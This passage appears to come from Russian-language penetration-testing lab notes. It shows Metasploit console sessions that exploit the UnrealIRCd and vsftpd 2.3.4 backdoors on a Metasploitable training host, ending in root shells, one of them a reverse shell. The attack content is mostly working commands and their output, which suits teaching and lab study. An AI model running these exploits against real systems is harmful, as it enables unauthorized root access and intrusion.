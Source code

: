 \begin{lstlisting}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 10.0.0.1
RHOST => 10.0.0.1
msf exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse TCP double handler on 10.0.0.2:4444 
[*] Connected to 10.0.0.1:6667...
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo mrkPEZNVDx7PwnO9;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "mrkPEZNVDx7PwnO9\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.1:39586) at 2016-05-29 22:02:47 -0400

whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
\end{lstlisting}

\subsection{Атака на FTP}
FTP - протокол для обмена файлами.

\begin{lstlisting}
msf exploit(unreal_ircd_3281_backdoor) > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > set RHOST 10.0.0.1
RHOST => 10.0.0.1
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.0.2:39303 -> 10.0.0.1:6200) at 2016-05-29 21:57:44 -0400


whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
\end{lstlisting}

\subsection{Armitage}

Armitage - графический интерфейс для Metasploit.

